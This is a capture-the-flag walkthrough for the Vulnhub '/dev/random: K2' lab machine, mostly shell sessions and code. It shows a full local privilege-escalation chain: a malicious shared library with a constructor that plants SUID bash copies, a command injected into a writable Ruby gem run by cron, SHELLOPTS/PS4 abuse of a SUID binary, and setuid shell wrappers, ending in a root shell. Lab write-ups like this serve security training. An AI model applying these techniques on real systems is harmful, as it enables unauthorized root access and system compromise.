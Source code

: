 <https://www.hackingarticles.in/hack-the-dev-random-k2-vm-boot2root-challenge/>

<https://www.boiteaklou.fr/Abusing-Shared-Libraries.html>

<https://unix.stackexchange.com/posts/108269/revisions>

<http://devloop.users.sourceforge.net/index.php?article154/solution-du-ctf-dev-random-k2-de-vulnhub>

<https://www.youtube.com/watch?v=9B1C_xi_yic>

<https://www.vulnhub.com/entry/devrandom-k2,204/>




shared libraries, cat -v, bash -p, ruby gem which, sudo 1.8.6p7, privilege increase with SHELLOPTS and PS4

# Login ssh user/password

    [user@localhost ~]$ sudo -l
    Matching Defaults entries for user on this host:
        !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE
        KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
        env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
        env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME
        LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
        secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

    User user may run the following commands on this host:
        (user2) /bin/calc

    [user@localhost ~]$ strings /bin/calc
    ...
    Calculating something, please wait...
    /home/user/.config/libcalc.so <== HERE
    ...

    [user@localhost ~]$ ldd /bin/calc 
    linux-vdso.so.1 =>  (0x00007ffe8b6c0000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007f1f968b7000)
    libstdc++.so.6 => /lib64/libstdc++.so.6 (0x00007f1f965ae000)
    libm.so.6 => /lib64/libm.so.6 (0x00007f1f962ab000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007f1f96095000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f1f95cd4000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f1f96ac1000)

    [user@localhost ~]$ strace /bin/calc 2>&1 | grep -i -E "open|access"
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libstdc++.so.6", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libm.so.6", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libgcc_s.so.1", O_RDONLY|O_CLOEXEC) = 3
    open("/lib64/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
    open("/home/user/.config/libcalc.so", O_RDONLY|O_CLOEXEC) = 3  <== HERE


# Exploit shared libraries

    bash-4.2$ cat /home/user/libcalc.c 
    #include <stdio.h>
    #include <stdlib.h>

    static void x() __attribute__ ((constructor));

    void x() {
        system("cp /bin/bash /tmp/bash1 && chmod 4755 /tmp/bash1 && /tmp/bash1 -p");
    }

    gcc -shared -o /home/user/.config/libcalc.so -fPIC libcalc.c 

    [user@localhost ~]$ sudo -u user2 /bin/calc 
    Calculating something, please wait...
    [user2@localhost user]$ id
    uid=1001(user2) gid=1001(user2) groups=1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [user2@localhost user]$ 


    bash-4.2$  cat /tmp/bash2.c 

    void main() {
            setreuid(geteuid(), getuid());
            setregid(getegid(), getgid());
            system("/bin/bash");
    }

    [user2@localhost ~]$ gcc bash2.c  bash2

    [user2@localhost ~]$ ./bash2 
    [user2@localhost ~]$ id
    uid=1001(user2) gid=1001(user2) groups=1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

# Exploit crontab

    bash-4.2$ tac /etc/crontab 
    [user@localhost tmp]$ cat -v /etc/crontab
    SHELL=/bin/bash
    PATH=/sbin:/bin:/usr/sbin:/usr/bin
    MAILTO=root
    HOME=/

    # For details see man 4 crontabs

    * * * * * user3 /sbin/bckup
    ^[[3A

    # Example of job definition:
    # .---------------- minute (0 - 59)
    # |  .------------- hour (0 - 23)
    # |  |  .---------- day of month (1 - 31)
    # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
    # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
    # |  |  |  |  |
    # *  *  *  *  * user-name  command to be executed



# Exploit ruby program


    [user2@localhost ~]$ cat /sbin/bckup
    #!/usr/bin/env ruby

    require 'rubygems'
    require 'zip'

    directory = '/etc/firewalld/'
    zipfile_name = '/tmp/firewalld-backup.zip'

    File.delete(zipfile_name) if File::exists?(zipfile_name)
    Zip::File.open(zipfile_name, Zip::File::CREATE) do |zipfile|
            Dir[File.join(directory, '**', '**')].each do |file|
              zipfile.add(file.sub(directory, ''), file)
            end
    end


    [user2@localhost ~]$ gem which zip
    /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
    [user2@localhost ~]$ ls -al /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
    -rw-rw-r--. 1 root user2 49 Mar 27  2021 /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb
    echo '`cp /bin/bash /tmp/bash3 && chmod +s /tmp/bash3`' > /usr/local/share/gems/gems/rubyzip-1.2.1/lib/zip.rb



    [user2@localhost ~]$ /tmp/bash3
    bash3-4.2$ id
    uid=1001(user2) gid=1001(user2) euid=996(user3) egid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    bash3-4.2$ ./bash2 
    bash: /home/user2/.bashrc: Permission denied
    bash-4.2$ id
    uid=996(user3) gid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023



# Get root

    bash-4.2$ find / -perm -u=s -type f 2>/dev/null 
    /tmp/bash3
    /tmp/bash1
    /usr/bin/chfn
    /usr/bin/chage
    /usr/bin/gpasswd
    /usr/bin/newgrp
    /usr/bin/chsh
    /usr/bin/sudo
    /usr/bin/mount
    /usr/bin/su
    /usr/bin/umount
    /usr/bin/crontab
    /usr/bin/pkexec
    /usr/bin/passwd
    /usr/sbin/pam_timestamp_check
    /usr/sbin/unix_chkpwd
    /usr/sbin/usernetctl
    /usr/lib/polkit-1/polkit-agent-helper-1
    /usr/lib64/dbus-1/dbus-daemon-launch-helper
    /usr/local/bin/whoisme <== HERE

    bash-4.2$ ls -al /usr/local/bin/whoisme
    -rwsr-xr--. 1 root user3 8616 Aug 30  2017 /usr/local/bin/whoisme


## Exploit SHELLOPTS, PS4

    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash5 && chown root.root /tmp/bash5 && chmod 4755 /tmp/bash5)' /bin/sh -c '/usr/local/bin/whoisme'
    chown: changing ownership of '/tmp/bash5': Operation not permitted
    /usr/local/bin/whoisme
    /usr/bin/logname
    user
    bash-4.2$ /tmp/bash5 -p
    bash5-4.2# id
    uid=996(user3) gid=994(user3) euid=0(root) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    bash5-4.2# ./bash2 
    [root@localhost tmp]# id
    uid=0(root) gid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023



    #include <stdio.h>
    int main() {
        setuid(0);
        system("/bin/sh");
    }

    bash-4.2$ gcc egg.c  -o egg
    bash-4.2$ env -i SHELLOPTS=xtrace PS4='$(chown root:root /tmp/egg && chmod +s /tmp/egg)' /bin/sh -c '/usr/local/bin/whoisme'
    chown: changing ownership of '/tmp/egg': Operation not permitted
    /usr/local/bin/whoisme
    /usr/bin/logname
    user
    bash-4.2$ ls -al /tmp/egg
    -rwsrwsr-x. 1 root root 8568 Nov 15 05:54 /tmp/egg
    bash-4.2$ ./egg 
    sh-4.2# id
    uid=0(root) gid=994(user3) groups=994(user3),1001(user2) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
